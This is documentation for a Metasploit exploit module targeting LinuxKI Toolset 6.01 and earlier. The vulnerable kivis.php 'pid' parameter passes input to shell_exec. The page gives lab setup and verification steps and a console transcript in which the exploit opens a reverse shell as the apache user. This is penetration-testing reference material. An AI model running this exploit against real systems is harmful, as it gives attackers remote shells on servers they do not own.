 ## Vulnerable Application

LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```set RHOSTS```
4. Do: ```set LHOST```
5. Do: ```run```
6. You should get a shell.

## Options
### TARGETURI

The directory where LinuxKI Toolset is installed

## Scenarios
### LinuxKI Toolset v6.01
```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > set rhosts 10.0.0.1
rhosts => 10.0.0.1
msf5 exploit(linux/http/linuxki_rce) > set rport 8080
rport => 8080
msf5 exploit(linux/http/linuxki_rce) > check
[+] 10.0.0.1:8080 - The target is vulnerable.
msf5 exploit(linux/http/linuxki_rce) > set lhost 10.0.0.5
lhost => 10.0.0.5
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 10.0.0.5:4444
[*] Sending exploit...
[*] Command shell session 1 opened (10.0.0.5:4444 -> 10.0.0.1:58914) at 2020-05-19 08:32:32 +0300

id
uid=48(apache) gid=48(apache) groups=48(apache)
```
